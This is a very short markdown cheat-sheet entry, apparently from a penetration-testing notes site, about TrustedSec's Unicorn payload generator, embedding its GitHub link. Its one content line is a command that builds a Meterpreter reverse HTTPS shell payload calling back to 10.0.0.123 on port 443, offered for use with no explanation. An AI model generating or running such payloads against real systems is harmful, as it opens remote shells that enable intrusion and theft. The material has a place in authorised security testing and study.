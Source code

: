 # unicorn

## Unicorn

{% embed url="https://github.com/trustedsec/unicorn" %}

`unicorn windows/meterpreter/reverse_https 10.0.0.123 443`

